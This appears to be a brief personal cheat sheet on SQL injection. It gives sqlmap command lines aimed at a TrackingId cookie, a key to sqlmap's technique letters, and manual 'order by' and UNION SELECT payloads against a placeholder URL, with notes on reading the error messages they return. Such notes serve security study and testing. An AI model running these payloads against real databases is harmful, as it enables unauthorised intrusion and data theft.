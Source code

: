 # sqlmap command to attack 

---
sqlmap -u "url" -p cookies="TrackingId=*" --technique=
sqlmap -r req.txt -p cookies="TrackingId=*" --technique=
--- 

The list of techniques with its letters is as follows:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries


# sql injection payload for error based technique

---
http://domain.com/index.php?id=1' order by 1-- -
---

1. This query musn't shows up error, since there is no lower number than 1
2. order by 1: mean arrage the result in asscending order by the first column of the table

---
http://domain.com/index.php?id=xyz' UNION SELECT 1--
---

1. return **ERROR: UNION types character varying and integer cannot be matched** mean id's type is character while 1 is type of integer
